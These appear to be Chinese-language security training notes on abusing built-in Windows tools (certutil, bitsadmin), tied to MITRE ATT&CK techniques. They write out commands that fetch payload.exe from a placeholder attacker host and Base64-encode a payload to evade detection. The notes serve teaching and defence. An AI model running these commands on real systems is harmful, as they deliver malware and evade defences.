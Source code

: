 - **任意代码执行 (Arbitrary Code Execution)**
- **文件操作 (File Operations)**: 包括下载 (Download)、上传 (Upload)、复制 (Copy) 文件。
- **编译代码 (Compile Code)**: 例如，使用 `csc.exe` (C# 编译器) 或 `MSBuild.exe`。
- **持久化 (Persistence)**: 包括在备用数据流 (Alternate Data Streams - ADS) 中隐藏数据，或在系统登录时执行。
- **UAC 绕过 (UAC Bypass)**
- **转储进程内存 (Dump Process Memory)**: 例如，转储 LSASS 进程内存以获取凭据。
- **DLL 注入 (DLL Injection)**

---

#### 文件操作：利用原生工具进行数据交互 (File Operations: Using Native Tools for Data Interaction)

##### 1. Certutil (`certutil.exe`)

- **合法用途**: `certutil.exe` 是 Windows 内置的命令行工具，用于管理证书颁发机构 (CA) 的配置信息、证书、证书吊销列表 (CRL) 等。其正常用途是获取和显示证书服务相关的信息。
- **恶意滥用**:
    - **文件传输 (下载)**: `certutil.exe` 可以被用来从远程 Web 服务器下载文件到目标机器。这种技术被 MITRE ATT&CK 框架识别为 **T1105 - Ingress Tool Transfer**。 **下载命令示例**:
        
        DOS
        
        ```
        certutil.exe -urlcache -split -f http://<Attacker_IP>/payload.exe C:\Windows\Temp\payload.exe
        ```
        
        - `-urlcache`: 用于显示或删除 URL 缓存条目，但在这里与其他参数组合使用时，可以触发下载。
        - `-split -f`: (通常 `-f` 是 force overwrite) `-split` 参数与 `-urlcache` 结合使用，可以强制从提供的 URL 获取文件并存储到本地。
    - **文件编码/解码**: `certutil.exe` 还可以用于对文件内容进行 Base64 编码和解码。这可以被用来混淆恶意文件或数据，使其难以被静态分析或基于签名的检测发现。此技术与 **MITRE ATT&CK T1027 - Obfuscated Files or Information** 相关。 **编码命令示例**:
        
        DOS
        
        ```
        C:\Users\thm> certutil.exe -encode payload.exe Encoded-payload.txt
        ```
        
        (解码则使用 `-decode` 参数)

##### 2. BITSAdmin (`bitsadmin.exe`)

- **合法用途**: `bitsadmin.exe` 是一个用于创建、下载或上传**后台智能传输服务 (Background Intelligent Transfer Service - BITS)** 作业并监控其进度的命令行实用程序。BITS 是一种使用空闲网络带宽以异步方式从 HTTP Web 服务器和 SMB 文件服务器传输文件的 Windows 组件。
- **恶意滥用**: 攻击者可能会滥用 BITS 作业在受感染的机器上下载并执行恶意载荷，或者用于数据渗出。这种技术也常被归类于 **T1105 - Ingress Tool Transfer**。 **下载命令示例**:
    
    DOS
    
    ```
    C:\Users\thm> bitsadmin.exe /transfer MyDownloadJob /download /priority FOREGROUND http://<Attacker_IP>/payload.exe C:\Users\thm\Desktop\payload.exe
    ```
    
    - `/transfer <JobName>`: 创建一个名为 `MyDownloadJob` 的新传输作业（或附加到现有作业）。
    - `/download`: 指定作业类型为下载。
    - `/priority FOREGROUND`: 设置作业的优先级为前台（还有 `HIGH`, `NORMAL`, `LOW`）。
    - `<URL>`: 要下载的文件的远程地址。
    - `<LocalPath>`: 文件在本地保存的路径。
